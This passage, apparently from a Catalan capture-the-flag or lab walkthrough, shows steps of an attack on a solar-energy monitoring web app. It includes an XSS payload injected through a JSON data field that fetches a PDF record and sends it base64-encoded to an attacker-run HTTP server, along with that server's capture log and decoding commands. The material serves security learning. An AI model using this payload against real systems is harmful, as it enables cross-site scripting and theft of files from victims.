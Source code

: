 Obtenim la programació HTML del client i busquem l'últim enllaç al PDF.

```html
<td>
    <td>2024-09-03T00:22:27.568Z</td>
    <td>
        <a href="?download=true&file=2024-09-03T00%3A22%3A27.568Z.json" class="download-btn">Download PDF</a>
    </td>
</td>
```

### Pas 3

Enviem el següent JSON al topic `data` per obtenir al nostre servei HTTP el fitxer PDF de la URL obtinguda en el pas anterior. En el nostre cas, `/records/?download=true&file=2024-09-03T00%3A22%3A27.568Z.json`.

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/?download=true&file=2024-09-03T00%3A22%3A27.568Z.json')).arrayBuffer())));})();\" />",
  "consumedEnergy": 15
}
```

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 02:10:55] "GET /?data=JVBERi0xLjQKMSAwIG9iago8PAovVGl0bGUgKP7/AFMAbwBsAGEAcgAgAEUAbgBlAHIAZwB5ACAA ... dGFydHhyZWYKMTk0MzEKJSVFT0YK HTTP/1.1" 200 -
```

### Pas 4

Guardem el codi base64 del PDF en un fitxer i el transformem a PDF.

```bash
$ head -c 100 base64pdf3.txt
JVBERi0xLjQKMSAwIG9iago8PAovVGl0bGUgKP7/AFMAbwBsAGEAcgAgAEUAbgBlAHIAZwB5ACAARABhAHQAYSkKL0NyZWF0b3Ig
$ cat base64pdf3.txt | base64 -d > document3.pdf
```

L'obrim i obtenim un altre codi base64, aquesta vegada del fitxer PHP carregat localment pel servidor.
